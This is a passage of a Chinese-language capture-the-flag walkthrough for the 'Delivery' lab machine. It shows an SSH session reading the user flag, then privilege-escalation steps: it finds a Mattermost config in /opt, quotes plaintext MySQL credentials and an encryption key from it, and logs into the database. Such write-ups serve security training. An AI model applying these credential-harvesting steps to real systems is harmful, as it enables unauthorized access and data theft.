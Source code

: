 The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
dc0dc83c949...

```

# 提权

在opt文件夹发现一个项目文件夹
```
maildeliverer@Delivery:/opt$ ls
mattermost
```

opt文件夹一般不会有任何内容，如果出现了文件应该特别留意

在config文件夹找到一个mysql的连接凭据

```
 "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026re
adTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },

```

连接mysql

```
maildeliverer@Delivery:~$ mysql -u mmuser -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 40
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
